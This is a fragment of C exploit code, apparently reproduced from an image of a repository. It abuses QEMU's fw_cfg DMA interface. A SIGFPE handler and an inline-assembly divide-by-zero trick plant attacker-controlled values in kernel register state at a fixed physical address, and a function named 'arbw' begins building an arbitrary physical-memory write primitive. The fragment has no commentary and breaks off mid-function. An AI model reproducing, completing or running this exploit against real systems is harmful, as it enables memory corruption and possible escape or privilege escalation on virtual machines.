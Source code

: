 ```c


// fw_cfg DMA commands
typedef enum fw_cfg_ctl_t {
    fw_ctl_error = 1,
    fw_ctl_read = 2,
    fw_ctl_skip = 4,
    fw_ctl_select = 8,
    fw_ctl_write = 16
} fw_cfg_ctl_t;

typedef struct FWCfgDmaAccess {
    uint32_t control;
    uint32_t length;
    uint64_t address;
} FWCfgDmaAccess;

void sigfpe_handler(int sig, siginfo_t *si, void *context) {
    ucontext_t *uc = (ucontext_t *)context;

    uc->uc_mcontext.gregs[REG_RIP] += 3;
}

uint64_t sp0_get_cmd(uint32_t control, uint64_t address, uint32_t length) {
    control = htonl(control);
    address = htobe64(address);
    length = htonl(length);

    asm volatile(
        ".intel_syntax noprefix\n"
        "mov r15d, %1\n"
        "shl r15, 32\n"
        "mov r14d, %0\n"
        "or r15, r14\n"
        "mov r14, %2\n"
        "mov rax, 0\n"
        "div rax\n"
        ".att_syntax prefix\n"
        :
        : "r" (control), "r" (length), "r" (address)
        : "rax", "r14", "r15"
    );

    return SP0_PTREGS_PHYS_ADDR;
}

int arbw(uint64_t phys_addr, char* value, int size){
    uint64_t cmd_physaddr;
    uint32_t cmd_physaddr_lo;
    uint32_t cmd_physaddr_hi;

    uint64_t byte_addr;
    uint32_t byte_off;

    byte_addr = (uint64_t)memmem(SIGNATURE, sizeof(SIGNATURE), value, size);
    
    if(byte_addr == 0)
        return 0;
    
    byte_off = byte_addr - (uint64_t)SIGNATURE;

    //
    // Skip
```